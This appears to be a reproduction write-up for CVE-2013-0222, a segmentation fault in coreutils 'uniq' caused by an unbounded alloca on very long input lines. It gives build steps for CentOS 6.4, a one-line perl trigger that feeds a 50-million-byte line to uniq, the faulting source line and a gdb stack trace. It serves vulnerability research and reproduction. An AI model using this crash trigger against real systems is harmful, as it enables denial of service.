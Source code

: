 # CVE-2013-0222

## Experiment Environment

CentOS 6.4

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-0222/coreutils-8.4-patched.tar.gz

tar -xvf coreutils-8.4-patched.tar.gz
cd coreutils-8.4
./configure
make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
perl -e 'print "1","\0"x50000000,"\r\n\r\n"' | uniq
```

## PoCs

[CVE-2013-0222: coreutils: segmentation fault in "uniq" with long line input](https://bugzilla.novell.com/show_bug.cgi?id=796243)

## Vulnerability Details & Patch

### Root Cause

```
uniq.c:392

	copy[i] = alloca (len[i] + 1);
```

### Stack Trace

```
(gdb) info stack
#0  0x08049ae8 in different_multi (old=<value optimized out>, new=<value optimized out>, oldlen=50000002, 
    newlen=50000002, oldstate=..., newstate=...) at uniq.c:397
#1  0x0804a8d3 in check_file (argc=1, argv=0xbf8f44d4) at uniq.c:513
#2  main (argc=1, argv=0xbf8f44d4) at uniq.c:806
```

## References
